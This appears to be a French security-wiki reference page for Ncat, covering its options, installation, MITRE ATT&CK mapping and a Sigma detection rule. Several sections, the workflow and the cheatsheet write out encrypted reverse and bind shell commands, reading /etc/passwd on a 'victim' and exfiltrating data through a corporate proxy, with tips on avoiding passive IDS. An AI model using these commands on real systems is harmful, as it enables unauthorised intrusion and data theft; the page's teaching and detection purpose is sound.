


# Ncat — Le netcat nouvelle génération

> [!info] **En 1 phrase**
> Ncat, l'implémentation de Nmap, reprend netcat et y ajoute le chiffrement TLS, les connexions par proxy, le mode broker, les listes de contrôle d'accès et l'exécution de commandes.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | Ncat (netcat amélioré du projet Nmap) |
| Description | Réimplémentation moderne de netcat : TLS natif, proxy (HTTP/SOCKS), broker, contrôle d'accès par IP, exécution de commandes, log de flux |
| Catégorie | Divers |
| Sous-catégorie | Outil réseau polyvalent (socket crue + chiffrement) |
| Fonction principale | Connexions/écoutes TCP et UDP chiffrées ou non, transferts, proxying, shells |
| Type d'outil | CLI |
| Licence | NPSL (Nmap Public Source License) |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C (support Lua optionnel pour --lua-exec) |
| Développeur / organisation | Nmap Project (Gordon Lyon « Fyodor ») |
| Projet officiel | Nmap (nmap, ncat, nping, ndiff, nse…) |
| Dépôt officiel | https://github.com/nmap/nmap |
| Documentation officielle | https://nmap.org/book/ncat-man.html |
| Date de création | 2009 (intégré à Nmap) |
| État du projet | actif (distribué avec chaque version de Nmap) |
| Dernière version connue | 7.991 (2026-08-06) |
| Systèmes compatibles | Linux, Windows, macOS, BSD |

> [!note] Pour vérifier / compléter
> Sur Debian/Ubuntu, `apt install nmap` fournit `ncat` ; sur Kali, il est préinstallé. Windows : l'installateur Nmap inclut `ncat.exe`. L'option `--lua-exec` n'est présente que si Ncat a été compilé avec le support Lua.

---

## Concept

Ncat est la réponse du projet Nmap aux limites de netcat : il conserve le modèle « stdin ↔ socket » mais ajoute ce qui manque à l'original — **TLS** (côté client ET serveur), **proxying** (HTTP, SOCKS4, SOCKS5), **broker** (relais multi-clients), **contrôle d'accès** (`--allow`/`--deny`), **exécution** (`--exec`/`--sh-exec`) et **journalisation** des flux (`--output-log`). Il est rétrocompatible avec la plupart des usages de `nc` (`-l`, `-p`, `-e`, `-u`, `-v`…).

C'est l'outil idéal quand un canal doit être **chiffré sans dépendre d'OpenSSH** (parfois bloqué), ou quand il faut **sortir via un proxy** depuis un environnement cloisonné. Le mode **broker** transforme Ncat en relais central : plusieurs clients se connectent au même broker et s'échangent des flux — très pratique pour du partage de fichiers ou une discussion chiffrée multi-utilisateurs.

En cybersécurité offensive, Ncat est le **netcat de référence** : présent avec Nmap sur les machines de pentest, il fournit des shells inversés/binds **chiffrés** (indétectables en clair par un IDS passif) et des transferts de fichiers qui traversent les proxies. En défense, il permet de tester des règles pare-feu et des sorties TLS/HTTP.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Socket brute | Même modèle que netcat : stdin/stdout branchés sur une connexion TCP/UDP |
| TLS natif | `--ssl` chiffre la connexion (client ou serveur) ; certificats gérés par `--ssl-cert`/`--ssl-key`/`--ssl-trustfile` |
| Proxy | `--proxy <hôte:port>` + `--proxy-type http|socks4|socks5` pour passer par un relais |
| Broker | `--broker` transforme l'écoute en relais multi-clients ; les clients se connectent et échangent des flux |
| Access control | `--allow <réseaux>`/`--deny` (et fichiers `--allowfile`/`--denyfile`) filtre les connexions entrantes par IP |
| Exécution | `--exec <cmd>` lance un programme sur la connexion ; `--sh-exec` passe par le shell |
| Chat | `--chat` active un mini-serveur de discussion multi-utilisateurs |
| Persistance | `--keep-open` accepte plusieurs connexions successives (comme `nc -k`) |
| Journalisation | `--output-log`/`--append-output` enregistre les données échangées dans un fichier |
| send/recv only | `--send-only`/`--recv-only` force une direction unique (utile en transfert) |

---

## Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y nmap
ncat --version
```

### Arch Linux

```bash
sudo pacman -S nmap
```

### Fedora / RHEL

```bash
sudo dnf install -y nmap
```

### macOS

```bash
brew install nmap
```

### Windows

```powershell
# L'installateur Nmap officiel installe ncat.exe
# https://nmap.org/download.html
ncat.exe --version
```

> [!warning] Prérequis & problèmes potentiels
> - `--lua-exec` exige la compilation avec Lua (pas activé par défaut partout).
> - Sur RHEL, le paquet s'appelle `nmap-ncat` dans certaines versions ; sinon `dnf install nmap`.
> - L'écoute sur un port < 1024 requiert root.
> - Vérifier la présence de `--ssl` dans l'aide : `ncat -h` — les anciennes builds l'activent toujours.

---

## Configuration

Pas de fichier de configuration global : Ncat se configure en arguments. Les options récurrentes pour l'automatisation et la sécurité.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `-l/--listen` | Mode écoute | — | Attend une connexion entrante | `ncat -l -p 4444` |
| `-p/--source-port` | Port source/local | 1-65535 | Port de connexion ou d'écoute | `ncat -lvnp 4444` |
| `--ssl` | Chiffrer la connexion | — | TLS côté client ou serveur | `ncat --ssl -l -p 4444` |
| `--ssl-cert`, `--ssl-key` | Certificat + clé serveur | chemins PEM | Terminaison TLS serveur | `--ssl-cert c.pem --ssl-key k.pem` |
| `--ssl-trustfile` | CAs de confiance | fichier PEM | Vérification des certificats | `--ssl-trustfile /etc/ssl/certs.pem` |
| `--proxy <h:p>` | Passer par un proxy | `hôte:port` | Connexion via HTTP/SOCKS | `--proxy 10.10.20.15:8080` |
| `--proxy-type <type>` | Type de proxy | `http`, `socks4`, `socks5` | Dialecte utilisé vers le proxy | `--proxy-type socks5` |
| `--allow <réseaux>` | Autoriser des sources | `CIDR` séparés par `,` | Filtre des connexions entrantes | `--allow 10.10.20.0/24` |
| `--deny <réseaux>` | Refuser des sources | `CIDR` | Blocage des connexions entrantes | `--deny 192.168.1.0/24` |
| `-e/--exec <cmd>` | Exécuter un programme | commande | stdin/stdout du programme sur la socket | `ncat -l -p 4444 --exec /bin/bash` |
| `--keep-open` | Accepter plusieurs connexions | — | Persistance de l'écoute | `ncat -l --keep-open -p 4444` |
| `--output-log <f>` | Journaliser les données | chemin | Trace de tout ce qui est échangé | `--output-log /tmp/capture.log` |

---

## Architecture interne

Ncat reprend l'architecture de netcat et la complète par des couches de services :

- **Couche transport** : TCP ou UDP (`-u`), adresse source contrôlable (`-s`), timeouts (`-w`, `--conn-timeout`, `--idle-timeout`).
- **Couche TLS** : `--ssl` active OpenSSL côté client (vérification optionnelle via `--ssl-trustfile`/`--ssl-verify`) ou côté serveur (`--ssl-cert` + `--ssl-key`, avec exigence de certificat optionnelle).
- **Couche proxy** : `--proxy` + `--proxy-type` négocie HTTP CONNECT, SOCKS4 ou SOCKS5 avant d'établir la cible.
- **Couche d'accès** : `--allow`/`--deny` (et fichiers) filtrent les adresses sources autorisées à se connecter.
- **Couche applicative** : `--exec`/`--sh-exec` branchent un programme, `--chat` gère le multiplexage texte multi-clients, `--broker` relaie les flux entre N clients.
- **E/S** : `--send-only`/`--recv-only` bornent la direction, `--output-log` persiste les données.



---

## Commandes

### Commandes principales

```bash
ncat [options] <hôte> <port>
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `ncat -lvnp 4444` | Écouter sur le port 4444 | Attend une connexion entrante |
| `ncat --ssl -lvnp 4444` | Écouteur TLS | Connexion chiffrée entrante |
| `ncat --ssl -e /bin/bash 10.10.20.15 4444` | Shell inversé chiffré | Shell distant via TLS |
| `ncat -l -p 4444 --exec /bin/bash` | Bind shell | L'attaquant se connecte et obtient un shell |
| `ncat --proxy 10.10.20.15:8080 --proxy-type socks5 target 80` | Connexion via proxy SOCKS5 | Connexion à la cible depuis la perspective du proxy |
| `ncat -l -p 4444 --allow 10.10.20.0/24` | Écoute restreinte | Rejette les sources hors du réseau autorisé |
| `ncat -l -p 4444 --output-log /tmp/echange.log` | Journaliser le flux | Tout l'échange écrit dans le fichier |

### Commandes avancées

```bash
# Transfert de fichier chiffré (récepteur puis émetteur)
ncat --ssl -l -p 4444 > secret.bin
ncat --ssl 10.10.20.15 4444 < secret.bin

# Broker : relais central multi-clients
ncat --broker -lvnp 4444
ncat --connect 10.10.20.15 4444   # client 1
ncat --connect 10.10.20.15 4444   # client 2 (échange via le broker)

# Écoute persistante avec refus d'une plage
ncat -lk --deny 192.168.1.0/24 -p 4444
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-l/--listen` | Mode écoute | `ncat -l -p 4444` | Basic |
| `-p/--source-port <port>` | Port source/local | `ncat -lvnp 4444` | Basic |
| `-v/--verbose` | Verbeux | `ncat -v host 80` | Basic |
| `-n` | Pas de résolution DNS | `ncat -n host 80` | Basic |
| `-w/--wait <sec>` | Timeout de connexion | `ncat -w 3 host 80` | Basic |
| `-u/--udp` | UDP | `ncat -u -l -p 53` | Intermediate |
| `--ssl` | Chiffrer la connexion | `ncat --ssl -l -p 4444` | Intermediate |
| `--ssl-cert <f>` / `--ssl-key <f>` | Certificat + clé serveur | `--ssl-cert c.pem --ssl-key k.pem` | Intermediate |
| `--ssl-verify` / `--ssl-trustfile <f>` | Vérifier le certificat | `--ssl-verify --ssl-trustfile cas.pem` | Intermediate |
| `--exec <cmd>` | Exécuter un programme | `--exec /bin/bash` | Intermediate |
| `--sh-exec <cmd>` | Exécuter via le shell | `--sh-exec 'nslookup $@'` | Intermediate |
| `--proxy <h:p>` | Passer par un proxy | `--proxy 10.10.20.15:8080` | Advanced |
| `--proxy-type <type>` | http/socks4/socks5 | `--proxy-type socks5` | Advanced |
| `--proxy-auth <u:p>` | Authentification proxy | `--proxy-auth user:pass` | Advanced |
| `--allow <réseaux>` | Autoriser des sources | `--allow 10.10.20.0/24,127.0.0.1` | Advanced |
| `--deny <réseaux>` | Refuser des sources | `--deny 192.168.1.0/24` | Advanced |
| `-k/--keep-open` | Accepter plusieurs connexions | `ncat -lk -p 4444` | Advanced |
| `--broker` / `--connect` | Relais central / client broker | `ncat --broker -l 4444` | Expert |
| `--chat` | Discussion multi-clients | `ncat --chat -l 4444` | Expert |
| `--send-only` / `--recv-only` | Forcer une direction | `ncat --send-only -l 4444 < f` | Advanced |
| `--output-log <f>` / `--append-output` | Journaliser le flux | `--output-log /tmp/log` | Intermediate |

> [!tip] Options les plus utiles au quotidien
> `--ssl` (chiffrement), `-lvnp` (écoute), `--exec`/`-e` (shell), `--proxy` (exfiltration via proxy), `--allow`/`--deny` (restriction), `--output-log` (trace). Le combo `--ssl -e` remplace netcat sans aucune dépendance externe.

---

## Exemples pratiques

### Beginner

```bash
# Écouter simplement
ncat -lvnp 4444

# Se connecter à un service
ncat -vn example.com 80
```

### Intermediate

```bash
# Shell inversé chiffré (attaquant puis victime)
ncat --ssl -lvnp 4444
ncat --ssl -e /bin/bash 10.10.20.15 4444

# Transfert de fichier chiffré
ncat --ssl -l -p 4444 > backup.tar.gz
ncat --ssl 10.10.20.15 4444 < backup.tar.gz
```

### Advanced

```bash
# Sortir vers l'extérieur via un proxy SOCKS5
ncat --proxy 10.10.20.15:1080 --proxy-type socks5 example.com 443

# Écoute restreinte à un réseau, journalisée
ncat -lvnp 4444 --allow 10.10.20.0/24 --output-log /tmp/shells.log
```

### Expert

```bash
# Broker : un relais, plusieurs clients
ncat --broker -lvnp 4444
ncat --connect 10.10.20.15 4444

# Chat multi-utilisateurs chiffré
ncat --ssl --chat -l -p 4444
```

---

## Workflow complet (scénario pas à pas)

1. **Étape 1 — Écouter chiffré côté attaquant** :
   ```bash
   ncat --ssl -lvnp 4444
   ```
2. **Étape 2 — Obtenir le shell côté victime** — le flux TLS est invisible en clair :
   ```bash
   ncat --ssl -e /bin/bash 10.10.20.15 4444
   ```
3. **Étape 3 — Interagir et exfiltrer** — commandes puis transfert de fichier :
   ```bash
   whoami; id; cat /etc/passwd
   ncat --ssl 10.10.20.15 4445 < /etc/passwd
   ```

---

## Scénarios avancés

### Scénario 1 : exfiltration à travers un proxy d'entreprise

```bash
ncat --proxy proxy.example.com:8080 --proxy-type http --ssl \
  10.10.20.15 4444 < data.txt   # exfiltration via le proxy d'entreprise
```

### Scénario 2 : broker pour partager un fichier entre machines

```bash
# Machine centrale (broker)
ncat --broker -lvnp 4444
# Machine A envoie, machine B reçoit (même broker)
ncat --connect 10.10.20.15 4444 < fichier
ncat --connect 10.10.20.15 4444 > fichier
```

### Scénario 3 : écoute durcie (accès contrôlé + logs + TLS)

```bash
ncat --ssl -lvnp 4444 \
  --ssl-cert serveur.pem --ssl-key serveur.key \
  --allow 10.10.20.0/24 --output-log /var/log/ncat.log
```

### Scénario 4 : reverse shell persistant (multi-connexions)

```bash
# Écouteur persistant
ncat -lk --ssl -p 4444 --exec /bin/bash --output-log /tmp/sh.log
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Banners, tests de connectivité sortante, détection de proxies |
| Exploitation | Canaux chiffrés pour payloads, validation d'egress |
| Post-exploitation | Shells chiffrés, transferts via proxy, pivots broker |
| Exfiltration | Sortie de données via HTTP/SOCKS (T1048), canaux TLS |
| C2 | Communication chiffrée (T1573), ports non standards (T1571) |
| Défense | Test de politiques pare-feu, validation TLS/egress |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Discovery | Network Service Discovery | T1046 | Scan/validation de ports avec `ncat -z` | Netflow, corrélation | Segmentation, filtrage |
| Command and Control | Encrypted Channel | T1573 | `--ssl` chiffre le canal C2 | Analyse de TLS (SNI, durée), DPI | Inspection TLS, egress |
| Command and Control | Proxy | T1090 | `--proxy`/`--broker` relaient le trafic | Flux vers proxys inhabituels | Politique proxy, logs |
| Command and Control | Non-Standard Port | T1571 | Ports exotiques (4444) | Détection de ports sortants | Politique de ports |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 | Transfert de données via TLS/proxy | Volumes sortants, DLP | Proxy, politique egress |
| Execution | Command and Scripting Interpreter | T1059 | Exécution de shell via `--exec` | Process_creation, EDR | Whitelisting |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Comme netcat, Ncat est un outil polyvalent : les ID dépendent de l'usage. Sa spécificité T1573 (canal chiffré) est ce qui le distingue de netcat.

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Process `ncat`/`nc` avec `--ssl`, `--exec`, `-l` | EDR, Sigma, supervision process |
| Connexions TLS sortantes vers des IP non répertoriées | Analyse des certificats, corrélation de flux |
| Connexions vers des proxys/brokers inhabituels | Logs proxy, Netflow |
| Ports en écoute avec certificats auto-signés | Scans internes, inventaire des services |
| Binaires Ncat déposés hors paquet Nmap | YARA, intégrité des fichiers |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Linux : Ncat utilisé avec --ssl / --exec / -l
title: Ncat TLS Listener or Exec
id: 4b9c7d2e-1f3a-4c8b-9e2d-6a5f7b8c9d01
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith: '/ncat'
        CommandLine|contains:
            - '--ssl'
            - '--exec'
            - ' -l '
            - '--listen'
    condition: selection
falsepositives:
    - Legitimate TLS administration or lab use
level: medium
```

> [!note] À vérifier
> Le TLS légitime ressemble au TLS malveillant : croiser avec la liste des IP/CAs connus et le contexte réseau. Règles à calibrer sur le trafic de production.

---

## Automatisation

```bash
# Bash — tester la connectivité sortante vers plusieurs ports
for p in 80 443 4444 8443; do
  ncat -zvw 2 10.10.20.15 $p 2>&1 | grep -E "succeeded|refused"
done

# Bash — collecte automatique d'une bannière via Ncat
echo | ncat -w 2 example.com 80 | head -n 5
```

```python
# Python — lancer un transfert chiffré Ncat et vérifier l'intégrité
import hashlib, subprocess
subprocess.run(["ncat", "--ssl", "-l", "-p", "4444", "-o", "recu.bin"],
               check=True)
h = hashlib.sha256(open("recu.bin", "rb").read()).hexdigest()
print(f"sha256: {h}")
```

---

## Output et parsing

Ncat écrit ses messages de connexion sur **stderr** (verbeux `-v`) et les données échangées sur stdout. `--output-log` persiste le flux dans un fichier, ce qui facilite les audits.

```bash
# Journalisation du flux complet (utile pour l'analyse)
ncat --ssl -l -p 4444 --output-log /tmp/session.log --append-output

# Vérification : le log contient exactement les données échangées
wc -c /tmp/session.log
strings /tmp/session.log | head
```

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - Netcat]] — l'ancêtre ; Ncat en est le remplaçant moderne
- [[Outil - socat]] — l'alternative la plus complète (SSL, UNIX sockets)
- [[Outil - Nmap]] — Ncat est distribué avec Nmap et s'utilise avec ses résultats
- [[Outil - Metasploit]] — payloads et transferts initiaux via Ncat
- [[Outil - tshark]] / [[Outil - tcpdump]] — analyser le trafic TLS Ncat (métadonnées)

```text
nmap -sV <cible> → ncat --ssl <cible> <port> → shell/interaction
ncat --proxy <proxy> <cible> <port> → canal à travers le proxy
ncat --broker -l <port> → relais multi-clients
```

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| socat | SSL, UNIX sockets, UDP multicast, relais avancés | Syntaxe complexe | Tunnels et relais |
| Netcat (traditionnel) | Universel, ultra-léger | Pas de TLS/proxy | Fallback minimal |
| OpenSSL `s_client` | TLS sans outil supplémentaire | Mode « pipe » limité | Tests TLS ponctuels |
| PowerShell `Test-NetConnection` | Natif Windows | Pas de flux brut | Windows sans Ncat |

> **Quand utiliser Ncat plutôt que socat ?** Pour la simplicité de netcat + le chiffrement : Ncat garde la syntaxe familière. Dès qu'il faut des UNIX sockets, du relais multicast ou des options SSL avancées, socat est plus riche.

---

## Performance

- **Léger** : un binaire, aucune dépendance dynamique lourde (OpenSSL seulement pour `--ssl`).
- **Chiffrement** : TLS ajoute un léger coût CPU ; sur de gros transferts, préférer `--ssl` (aes) plutôt que le clair pour la sécurité, en acceptant le surcoût.
- **Broker** : le relais central doit gérer N connexions simultanées — la bande passante est bornée par le broker.
- **Proxy** : le débit est limité par le proxy lui-même (HTTP CONNECT < SOCKS5 en général).

> [!note] À vérifier
> Les performances dépendent du matériel, du réseau et du mode (TLS, broker, proxy) ; mesurer avec `dd`/`pv` sur ses propres transferts.

---

## Troubleshooting

### Common problems

#### Problème : « Ncat: TLS error » / échec du handshake

- **Cause** : certificat serveur invalide ou inconnu du client.
- **Solution** : ajouter `--ssl-trustfile` avec la CA, ou côté serveur fournir `--ssl-cert`/`--ssl-key` valides.
- **Vérification** : `ncat -v --ssl host 4444` pour voir le détail du handshake.

#### Problème : le proxy refuse la connexion

- **Cause** : mauvais type de proxy ou authentification manquante.
- **Solution** : `--proxy-type socks5` (ou `http`), `--proxy-auth user:pass` si nécessaire.
- **Vérification** : tester d'abord le proxy avec `curl --socks5`.

#### Problème : les connexions sont rejetées malgré `-l`

- **Cause** : `--allow`/`--deny` trop restrictifs ou pare-feu local.
- **Solution** : vérifier la liste (`--allow 10.10.20.0/24`), ajuster UFW/iptables.
- **Vérification** : lancer `ncat -v -l -p 4444` sans filtres et observer.

#### Problème : `-e`/`--exec` introuvable dans l'aide

- **Cause** : version compilée sans le support (rare) ou confusion avec `--sh-exec`.
- **Solution** : utiliser `--sh-exec`, ou recompiler ; sur Windows, `--exec` n'existe pas.
- **Vérification** : `ncat -h | grep -i exec`.

#### Problème : le broker n'accepte qu'une seule connexion

- **Cause** : oubli de `--connect` chez les clients ou `--max-conns` trop bas.
- **Solution** : tous les clients utilisent `ncat --connect <broker> <port>`.
- **Vérification** : `ncat -v --broker -l -p 4444` montre chaque connexion entrante.

---

## Sécurité de l'outil

- **Chiffrement** : `--ssl` protège le flux ; sans lui, tout est en clair (comme netcat).
- **Certificats** : un serveur Ncat auto-signé est vulnérable au MITM si le client ne vérifie pas (`--ssl-verify` + `--ssl-trustfile`).
- **Contrôle d'accès** : `--allow`/`--deny` filtrent les sources au niveau socket, pas au niveau application.
- **Exécution** : `--exec`/`--sh-exec` donnent un accès complet — n'exposer jamais un bind shell sans filtrage strict.
- **Journalisation** : les logs contiennent des données sensibles (credentials, fichiers) — les protéger.
- **Traces** : les processus `ncat` et les connexions TLS sont observables ; les binaires non signés sont une cible YARA.
- **Autorisations** : usage offensif sans accord = illégal ; documenter chaque session.

---

## Limitations

- `--exec` indisponible sur Windows.
- Le chiffrement TLS nécessite OpenSSL (présent sur la quasi-totalité des systèmes).
- Pas de multiplexage de flux applicatif (un seul canal par connexion ; le broker compense partiellement).
- Les certificats auto-signés exigent une gestion manuelle de la confiance.
- `--lua-exec` n'est pas compilé par défaut partout.
- Le mode broker centralise le trafic : c'est un point de défaillance et d'observation.

---

## Cheatsheet

```bash
# Écoute claire / chiffrée
ncat -lvnp 4444
ncat --ssl -lvnp 4444

# Shell inversé chiffré
ncat --ssl -e /bin/bash 10.10.20.15 4444

# Bind shell
ncat -l -p 4444 --exec /bin/bash

# Transfert chiffré (réception puis envoi)
ncat --ssl -l -p 4444 > fichier
ncat --ssl 10.10.20.15 4444 < fichier

# Proxy SOCKS5
ncat --proxy 10.10.20.15:1080 --proxy-type socks5 cible 80

# Écoute restreinte + journalisée
ncat -lvnp 4444 --allow 10.10.20.0/24 --output-log /tmp/log

# Broker
ncat --broker -lvnp 4444
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Connexions/écoutes TCP/UDP avec TLS, proxy, broker, contrôle d'accès et exécution |
| **Quand l'utiliser ?** | Dès qu'un canal chiffré, un proxy ou un relais est nécessaire (remplacement de netcat) |
| **Commande principale** | `ncat --ssl -lvnp 4444` (écouteur chiffré) ; `ncat --ssl -e /bin/bash <ip> 4444` (reverse shell) |
| **Alternative principale** | [[Outil - socat\|socat]], [[Outil - Netcat\|netcat]], OpenSSH tunnels |
| **Concepts importants** | `--ssl`, `--proxy`/`--proxy-type`, `--broker`, `--allow`/`--deny`, `--exec`, `--output-log` |
| **Liens associés** | [[Outil - Netcat]] · [[Outil - socat]] · [[Outil - Nmap]] · [[Outil - Metasploit]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Process `ncat` avec `--ssl`/`--exec`/`-l` | EDR + Sigma, whitelisting |
| Connexions TLS sortantes non répertoriées | Analyse de certificats, egress control |
| Trafic vers proxys/brokers inattendus | Logs proxy, Netflow |
| Ports en écoute auto-signés | Scans internes, inventaire |
| Binaires Ncat déposés hors paquet officiel | YARA, intégrité des fichiers |

---

## Tips & Pièges

> [!tip] **Tips**
> - Toujours chiffrer un canal de transfert : `--ssl` est en une option.
> - Pour une exfiltration propre, passer par un proxy SOCKS5 (`--proxy-type socks5`).
> - Utiliser `--output-log` pour conserver la preuve d'un échange (utile en audit).
> - Restreindre systématiquement les listeners avec `--allow`/`--deny`.
> - Sur Windows, privilégier `--sh-exec` (pas de `--exec`).

> [!warning] **Pièges**
> - Un serveur TLS auto-signé sans vérification client est vulnérable au MITM.
> - `--allow`/`--deny` ne protègent pas le contenu : sans `--ssl`, le flux reste en clair.
> - Le broker est un point d'écoute unique : ne jamais l'exposer sans restriction.
> - `--output-log` écrit en clair des données potentiellement sensibles.
> - Confondre `-p` (port source) selon le mode (client/écoute) provoque des erreurs courantes.

---

## References

### Official

- Man page Ncat : https://nmap.org/book/ncat-man.html
- Guide Ncat (Nmap book) : https://nmap.org/book/ncat.html
- Dépôt officiel : https://github.com/nmap/nmap
- Téléchargements : https://nmap.org/download.html

### Security references

- MITRE ATT&CK T1573 — Encrypted Channel : https://attack.mitre.org/techniques/T1573/
- MITRE ATT&CK T1090 — Proxy : https://attack.mitre.org/techniques/T1090/
- MITRE ATT&CK T1048 — Exfiltration Over Alternative Protocol : https://attack.mitre.org/techniques/T1048/
- MITRE ATT&CK T1059 — Command and Scripting Interpreter : https://attack.mitre.org/techniques/T1059/

### Community

- GTFOBins (ncat) : https://gtfobins.github.io/gtfobins/ncat/
- HackTricks — shells inversés : https://book.hacktricks.xyz/shells/shells

---

**Liens :** [[Tools| Outils]] · [[Outil - Netcat|Netcat]] · [[Outil - socat|socat]] · [[Outil - Nmap|Nmap]] · [[Outil - Metasploit|Metasploit]]
